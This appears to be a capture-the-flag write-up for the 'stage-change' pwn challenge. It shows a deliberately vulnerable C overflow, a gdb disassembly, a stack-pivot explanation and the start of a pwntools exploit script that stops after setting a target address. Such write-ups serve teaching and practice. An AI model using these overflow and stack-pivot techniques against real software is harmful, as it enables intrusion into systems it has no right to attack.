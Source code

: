 ## stage-change
<primary-label ref="pwn"/>
<secondary-label ref="user"/>
There's a buffer-overflow vulnerability in "vuln".
```c
void vuln(){
    char local_buf[0x20];
    puts("Hey there, I'm deaddead. Who are you?");
    fgets(local_buf, 0x30, stdin);
}
```
The win function was provided, but there's a validation which check the state value.
Of course, the state was initialized in main function, so we have to rewrite before call win function.
```c
void win() {
    char filebuf[64];
    strcpy(filebuf, "./flag.txt");
    FILE* flagfile = fopen("flag.txt", "r");

    /* ********** ********** */
    // Note this condition in win()
    if(state != 0xf1eeee2d) {
        puts("\ntoo ded to gib you the flag");
        exit(1);
    }
    /* ********** ********** */
    //***print the flag, omit***
}
```
```c
int main(){
    state = 0xdeaddead;
```
the exploit flow is pivoting the stack and then call fgets() in "vuln" again.
Calling fgets with broken rbp which pointed to .data region for example allow us to overwrite into arbitrary address.
```bash
gef> disass vuln 
Dump of assembler code for function vuln:
----------------------------omit---------------------------
   0x00000000004012d0 <+27>:    mov    rdx,QWORD PTR [rip+0x2d59]        # 0x404030 <stdin@GLIBC_2.2.5>
   0x00000000004012d7 <+34>:    lea    rax,[rbp-0x20]
   0x00000000004012db <+38>:    mov    esi,0x30
   0x00000000004012e0 <+43>:    mov    rdi,rax
   0x00000000004012e3 <+46>:    call   0x4010c0 <fgets@plt>
```
my exploit
```py
from pwn import *

e = ELF("chall")
p = e.process()
#p = remote("chall.lac.tf", 31593)

#gdb.attach(p, '''
#          b *vuln+53 
#              ''')
#
p.recv()

state = 0x00404540

```